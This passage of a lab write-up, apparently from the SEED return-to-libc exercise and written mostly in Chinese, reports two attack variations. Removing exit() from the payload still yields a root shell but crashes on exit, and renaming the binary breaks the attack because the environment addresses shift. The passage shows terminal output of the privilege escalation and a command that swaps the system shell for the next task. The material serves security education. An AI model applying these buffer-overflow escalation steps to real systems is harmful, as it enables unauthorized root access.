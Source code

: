 > **Attack variation 1:** Is the `exit()` function really necessary? Please try your attack without including
> the address of this function in badfile. Run your attack again, report and explain your observations.

根据 task 要求，我们将 exploit.py 中 exit 的部分注释掉，然后重新运行。

```shell
$ ./exploit.py
$ ./retlib
Address of input[] inside main():  0xffffcda0
Input size: 300
Address of buffer[] inside bof():  0xffffcd70
Frame Pointer value inside bof():  0xffffcd88
# exit
Segmentation fault
```

发现可以正常提权，但退出时会崩溃。

> **Attack variation 2:** After your attack is successful, change the file name of retlib to a different name,
> making sure that the length of the new file name is different. For example, you can change it to newretlib.
> Repeat the attack (without changing the content of badfile). Will your attack succeed or not? If it does
> not succeed, explain why.

根据 task 要求，我们先将编译后的二进制文件改名为 rrtlib，提权成功

```shell
$ ./rrtlib
Address of input[] inside main():  0xffffcda0
Input size: 300
Address of buffer[] inside bof():  0xffffcd70
Frame Pointer value inside bof():  0xffffcd88
#
```

在改为 newretlib，提权不成功

```shell
$ ./newretlib
Address of input[] inside main():  0xffffcd90
Input size: 300
Address of buffer[] inside bof():  0xffffcd60
Frame Pointer value inside bof():  0xffffcd78
zsh:1: command not found: h
```

由此可见，这与程序名的长度有关。

## Task 4: Defeat Shell’s countermeasure

改回链接

```shell
sudo ln -sf /bin/dash /bin/sh
```
